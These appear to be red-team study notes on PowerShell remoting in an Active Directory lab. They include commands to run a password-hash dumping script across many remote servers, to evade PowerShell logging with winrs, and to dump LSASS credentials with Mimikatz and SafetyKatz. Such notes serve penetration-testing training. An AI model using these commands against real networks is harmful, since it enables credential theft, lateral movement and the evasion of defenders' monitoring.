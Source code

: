 It is recommended way to manager Windows Core Severs
You may need to enable (PS-Remoting) on Desktop windows machine, (Admin privs required)
It runs as a high integrity process. SO, you get elevated shell.
It is One-to-One
PSSession -
Interactive
Runs in a new process (wsmprovhost)
Is Stateful
Useful cmdlets -
New-PSSession
Enter-PSSession
For checking current running processes in current logged in user.
Get-PSHostProcessInfo
Fan-out Remoting (powershell remoting)-
One-to-Many
Also known as Fan-out remoting.
Non-Interactive
Executes commands parallely
Useful cmdlet - Invoke-Command
Use case - If you have to administer 10k machine it is pretty difficult and PSSession was designed to access one machine at a time, so we use Fan-out remoting in this case. Which executed commands parallely and is non-interactive.
If you give Invoke-Command list of all 10k machine and command to run over then it will do it so easily.
Run command and scripts on - 
multiple remote computers
in disconnected sessions (v3)
as background jobs and more!
The best thing in powershell for passing the hases, using credentials and executing commands on multiple remote computers.
Use -Credential paramenter to pass username/password
Use below to execute commands or script blocks - (command or script is converted to a base 64 encoded script block and sent to the server and then executed remotely)
Invoke-Command -ScriptBlock {Get-Process} -ComputerName (Get-Content <list_of_servers>)
Use Below to execute scripts from files -
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 - ComputerName (Get-Content <list_of_servers>) 
Use below to execute locally loaded functions on remote machine -
Invoke-Command -ScriptBlock ${function:Get-Passhashes} -ComputerName (Get-Content <list_of_servers>)
In this case, we are passing arguments (keep in mind that only positional arguments could be passed this way) -
Invoke-Command -ScriptBlock $(function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
Use below to execute "Stateful" commands using Invoke-Command -
> $Sess = New_PSSession -ComputerName Server1
> Invoke-Command -Session $Sess -ScriptBlock {$Proc = Get-Process}
> Invoke-Command -Session $Sess -ScriptBlock {$Proc.name} 
> $adminsrv = New-PSSession dcorp-adminsrv
> Invoke-Command -ScriptBlock {whoami;hostname} -Session $adminsrv
Tradecraft (powershell remoting) -
PowerShell remoting supports the system-wide transcripts and deep script block logging.
We can use winrs in place of PSRemoting to evade the logging (and still reap the benefits of 5985 allowed) between hosts.
winrs -remote:server1 -u:server1\administrator -p:Pass@1234 hostname
We can also use winrs.vbs and COM objects of WSMan object.
Using Mimikatz -
LSASS -
Extracting Credentials from LSASS - (Very high chances of detection when interacting with LSASS)
Dump credentials on a local machine using Mimikatz -
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
using SafetyKatz (minidump of LSASS and PELoader to run mimikatz)
SafetyKatz.exe "sekurlsa::ekeys"
Dump Credentails using SharpKatz (C# port of some of Mimikatz functionality)